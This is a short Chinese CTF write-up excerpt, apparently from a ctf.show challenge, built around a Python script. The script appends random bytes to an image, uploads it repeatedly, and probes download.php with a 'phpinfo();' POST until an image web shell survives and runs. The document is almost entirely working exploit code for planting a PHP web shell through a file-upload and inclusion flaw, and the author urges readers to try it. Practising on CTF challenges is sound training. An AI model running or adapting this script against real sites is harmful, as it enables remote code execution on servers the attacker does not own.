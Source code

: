 我准备了一个脚本(激动，终于成功了，师傅们一定要试一试！！！)

```python
import requests
import random
import string

# 配置
image_path = 'payload_cola1.jpg'  # 图片路径
url = 'http://0092bb15-7d1d-4a6c-8f9d-c9ac4a6076fa.challenge.ctf.show/'
upload_url = url + 'upload.php'  # 上传接口 URL
get_url = url + 'download.php?image='  # 访问接口
output_path = 'success_image1.jpg'  # 保存路径

def generate_random_string(length):
    characters = string.ascii_letters + string.digits + string.punctuation
    return ''.join(random.choice(characters) for _ in range(length))

# 读取图片文件
with open(image_path, 'rb') as image_file:
    image_data = image_file.read()

while True:
    # 生成30到50位长度的随机字符串
    random_length = random.randint(30, 50)
    text_to_append = generate_random_string(random_length).encode('utf-8')  # 要追加的文本

    # 追加文本到图片数据
    modified_image_data = image_data + text_to_append
    # 在图片数据开头插入文本，报错
    # modified_image_data = text_to_append + image_data

    # 准备上传
    files = {'file': ('modified_image.jpg', modified_image_data, 'image/jpeg')}
    response = requests.post(upload_url, files=files)
    # 获取上传后的状态、文件名
    response_json = response.json()
    msg = response_json.get("msg")

    # 检查响应
    if response.status_code == 200:
        print('上传成功' + f"-----文件名 {msg}")
        
        # 测试图片接口
        img_url = get_url + str(msg)
        test_resp = requests.get(img_url)
        if test_resp.status_code == 200:
            print("图片测试成功")
            data = {"1":"phpinfo();"}
            eval_resp = requests.post(img_url,data=data)
            if "phpinfo" in eval_resp.text:
                print("木马已存活...")
                # 在成功检测到木马文件后保存修改后的文件
                with open(output_path, 'wb') as output_file:
                    output_file.write(modified_image_data)
                print(f'修改后的文件已保存到: {output_path}')
                break
            else:
                print("正在生成木马")
        else:
            print("图片上传失败，请检查图片")
    else:
        print(f'上传失败，状态码: {response.status_code}')
        print(f'响应内容: {response.text}')
```
